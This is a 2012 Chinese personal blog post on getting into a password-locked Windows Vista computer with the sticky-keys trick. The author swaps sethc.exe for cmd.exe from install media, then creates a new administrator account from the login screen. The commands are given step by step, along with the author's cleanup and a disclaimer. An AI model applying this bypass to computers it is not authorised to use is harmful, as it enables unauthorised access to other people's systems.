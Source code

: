 ```yaml
---
title: 黑进windows
excerpt: "今天家里人出门了，但是我要用一台有密码的vista机扫描卷子。怎么办呢？黑进去吧！\r\n\r\n用手机查了十分钟，找到一个办法，于是打算记录下来。（我了个去，还是写个免责声明好。见文末。）\r\n\r\n我将假设你已经知道：\r\n<ul>\r\n\t<li>什么是『windows安装盘』</li>\r\n\t<li>什么是、如何大致使用<code>cmd</code></li>\r\n</ul>\r\n<div>步骤：</div>\r\n<ol>\r\n\t<li>弄个windows安装盘。</li>\r\n\t<li>启动，见到『现在安装』按钮按<code>shift+f1</code>0。</li>\r\n\t<li><code>cd</code>进入<code>c:\\windows\\system32\\</code>。"
wordpress_id: 349
wordpress_url: http://blog.easoncxz.com/?p=349
date: '2012-10-04 15:05:28 +1300'
date_gmt: '2012-10-04 03:05:28 +1300'
categories:
- User
tags:
- Windows
- crack
comments: []
---
```

<p>今天家里人出门了，但是我要用一台有密码的vista机扫描卷子。怎么办呢？黑进去吧！</p>
<p>用手机查了十分钟，找到一个办法，于是打算记录下来。（我了个去，还是写个免责声明好。见文末。）</p>
<p>我将假设你已经知道：</p>
<ul>
<li>什么是『windows安装盘』</li>
<li>什么是、如何大致使用<code>cmd</code></li>
</ul>
<div>步骤：</div>
<ol>
<li>弄个windows安装盘。</li>
<li>启动，见到『现在安装』按钮按<code>shift+f1</code>0。</li>
<li><code>cd</code>进入<code>c:\windows\system32\</code>。<a id="more"></a><a id="more-349"></a></li>
<li>对粘滞键程序改名： <code>ren sethc.exe sethc-bak.exe</code></li>
<li>复制假粘滞键程序： <code>copy cmd.exe sethc.exe</code></li>
<li>拔安装盘，重启。</li>
<li>见到登录界面，连按5下<code>shift</code>。</li>
<li>创建新的用户：<code>net user myNewTempUser /add</code></li>
<li>将这个用户添加到管理员组： <code>net localgroup /add administrators myNewTempUser</code></li>
<li>重启，搞定。</li>
</ol>
<p>当然，出于尽量不要打搅别人的态度，我用完之后还把临时用户删掉了： <code>net user myNewTempUser /delete</code> , 并且重新进入WinPE把粘滞键的文件恢复原样。</p>
<p><strong>免责声明：</strong><br />
<strong>本文只希望分享一个紧急情况下进入windows系统的方法，而并不希望以此怂恿或帮助任何人恶意进入他人系统。未经允许使用他人电脑者需要对其自身的行为负责。</strong></p>

